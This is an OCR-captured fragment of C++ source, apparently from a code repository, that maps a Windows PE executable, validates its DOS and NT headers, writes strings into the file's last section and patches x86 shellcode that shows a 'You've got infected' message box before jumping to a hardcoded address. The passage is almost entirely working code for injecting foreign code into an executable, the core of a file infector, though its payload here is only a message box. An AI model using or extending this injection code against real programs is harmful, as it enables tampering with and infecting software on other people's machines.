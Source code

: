 ```Cpp
    CloseHandle(hFile);
    return FALSE;
}

// Get the DOS header of the file
dosHeader = (PIMAGE_DOS_HEADER)lpFileBase;
if (dosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
    printf("Invalid DOS signature\n");
    UnmapViewOfFile(lpFileBase);
    CloseHandle(hFileMapping);
    CloseHandle(hFile);
    return FALSE;
}

// Get the NT headers
ntHeaders = (PIMAGE_NT_HEADERS)((DWORD_PTR)lpFileBase + dosHeader->e_lfanew);
if (ntHeaders->Signature != IMAGE_NT_SIGNATURE) {
    printf("Invalid NT signature\n");
    UnmapViewOfFile(lpFileBase);
    CloseHandle(hFileMapping);
    CloseHandle(hFile);
    return FALSE;
}

// Get the last section header
sectionHeader = IMAGE_FIRST_SECTION(ntHeaders) + (ntHeaders->FileHeader.NumberOfSections - 1);

char shellCode[] = 
    "\x6A\x00"                  // PUSH 0
    "\x68\x00\x00\x00\x00"      // PUSH "Injected Calculator"
    "\x68\x00\x00\x00\x00"      // PUSH "You've got infected"
    "\x6A\x00"                  // PUSH 0
    "\xE8\x00\x00\x00\x00"      // CALL USER32.MessageBoxA
    "\xE9\x00\x00\x00\x00";     // JMP 1012475

// Calculate the offset and size for the new data with added the section
const char* titleStr = "Code Injector";
DWORD titleOffset = 0x30;
const char* captionStr = "You've got infected";
DWORD captionOffset = 0x50;

// Append the strings into section (+1 at strlen() since both strings are null-terminated strings)
memcpy((PBYTE)lpFileBase + sectionHeader->PointerToRawData + titleOffset, titleStr, strlen(titleStr) + 1);
memcpy((PBYTE)lpFileBase + sectionHeader->PointerToRawData + captionOffset, captionStr, strlen(captionStr) + 1);

// Edit shellcode with 2 added strings
*(DWORD*)(shellCode + 3) = sectionHeader->VirtualAddress + ntHeaders->OptionalHeader.ImageBase + titleOffset;
*(DWORD*)(shellCode + 8) = sectionHeader->VirtualAddress + ntHeaders->OptionalHeader.ImageBase + captionOffset;
```
